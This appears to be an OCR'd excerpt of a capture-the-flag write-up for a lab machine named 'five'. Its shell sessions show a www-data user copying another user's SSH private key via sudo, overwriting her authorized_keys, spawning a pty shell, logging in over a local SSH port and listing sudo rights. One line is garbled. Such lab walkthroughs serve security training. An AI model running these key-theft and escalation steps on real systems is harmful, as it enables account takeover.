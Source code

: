 ## P2
```bash
# www-data@five:/$ cd /tmp
cd /tmp
# www-data@five:/tmp$ touch id_rsa
touch id_rsa
# www-data@five:/tmp$ sudo -u melisa cp /home/melisa/.ssh/id_rsa /tmp/id_rsa
sudo -u melisa cp /home/melisa/.ssh/id_rsa /tmp/id_rsa
# www-data@five:/tmp$ chmod 600 /tmp/id_rsa
chmod 600 /tmp/id_rsa
# www-data@five:/tmp$ ssh-keygen -y -f id_rsa > authorized_keys
ssh-keygen -y -f id_rsa > authorized_keys
# www-data@five:/tmp$ sudo -u melisa cp /tmp/authorized_keys /home/melisa/.ssh/authorized_keys
<p/authorized_keys /home/melisa/.ssh/authorized_keys

## P3
```bash
# www-data@five:/tmp$ ss -tuln
ss -tuln
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port
udp     UNCONN   0        0                0.0.0.0:68            0.0.0.0:*
tcp     LISTEN   0        128            127.0.0.1:4444          0.0.0.0:*
tcp     LISTEN   0        128              0.0.0.0:80            0.0.0.0:*
tcp     LISTEN   0        128                 [::]:80               [::]:*
www-data@five:/tmp$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## P4
```bash
# www-data@five:/tmp$ ssh -i id_rsa melisa@localhost -p 4444
ssh -i id_rsa melisa@localhost -p 4444
Could not create directory '/var/www/.ssh'.
The authenticity of host '[localhost]:4444 ([127.0.0.1]:4444)' can't be established.
ECDSA key fingerprint is SHA256:jWQpYhXQJtOuJfrNjZvNSilLDT7fkbFxeioQzGTBY7Y.
Are you sure you want to continue connecting (yes/no)? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Linux five 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct  6 03:39:32 2020 from 192.168.1.58
```

## P5
```bash
# melisa@five:~$ sudo -l
sudo -l
Matching Defaults entries for melisa on five:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User melisa may run the following commands on five:
    (ALL) SETENV: NOPASSWD: /bin/pwd, /bin/arch, /bin/man, /bin/id, /bin/rm,
        /bin/clear
```
